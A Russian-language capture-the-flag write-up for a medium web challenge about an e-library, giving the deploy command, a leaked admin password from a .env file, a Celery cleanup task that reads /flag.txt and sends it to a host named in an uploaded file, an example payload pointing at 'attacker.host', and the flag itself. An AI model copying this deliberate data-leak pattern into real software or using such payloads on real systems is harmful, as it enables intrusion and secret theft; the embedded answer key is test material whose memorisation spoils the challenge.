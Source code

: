 # web | library | medium

## Информация

> Я создал электронную бибилиотеку, пока она на стадии разработки, но я надеюсь что у меня максимально безопасный сервис и с кодом все хорошо, проверь его на всякий случай, пожалуйста =)


## Подсказка

Если я правильно помню, то admin хотел удалять(очищать) старые книги как автоматизированно, через таски, celery таски....

## Деплой

```bash
cd deploy
docker-compose up --build -d
```

## Выдать участникам

public/public.zip

## Описание

в коде сливается пароль админской учетки, при этом новые книги можно загрузить только из панели админа, все книги, которым больше 30 секунд удаляются и вызывается очень странный код - явно создавался для админа, чтобы исполнять код.

## Решение

в .env файле сливается пароль админа

```
SERVER_PORT=8900
EMAIL_HOST_USER=admin@mylibrary.ru
EMAIL_HOST_PASSWORD=to!R>@gq~Q8y2?XVVGe:
                                  
```

посмотрим кусок кода в celery таске cleaner.py - если загрузить bash скрипт, то он исполнится, чтобы было безопаснее, то в код явно уже встроены методы взятия флага и резолва на удаленный хост

```php
def cleaner():
    books_to_delete = Book.objects.filter(created_at__lte=timezone.now() - timezone.timedelta(seconds=30))
  
    deleted_count = 0
  
    for book in books_to_delete:
        file_path = os.path.join(BOOK_STORE, f"{book.uid}.txt")
        try:
            with open(file_path, 'r') as f:
                lines = f.readlines()
                if len(lines) == 3 and '#!/usr/bin/bash' in lines[0] and "cat " in lines[1]:
                    flag = ""

                    with open("/flag.txt", 'r') as f1:
                        for i in f1:
                            flag+=i.replace('\n','')
                    dom = lines[2].replace('\n','')
                    url = f"{dom}/{flag}"
                    requests.get(url, verify=False, timeout=1)
      
          
      
            book.delete()
            deleted_count += 1
  
        except FileNotFoundError:
            print(f"File for {book.title} not found.")
            book.delete()
            deleted_count += 1
```

пример sploit.txt: (именно txt потому что книга!) - его надо загрузить как книгу

```
#!/usr/bin/bash
cat flag
https://attacker.host
```

## Флаг

ctf{1_th1nk_1t_will_b3_e4sy!}
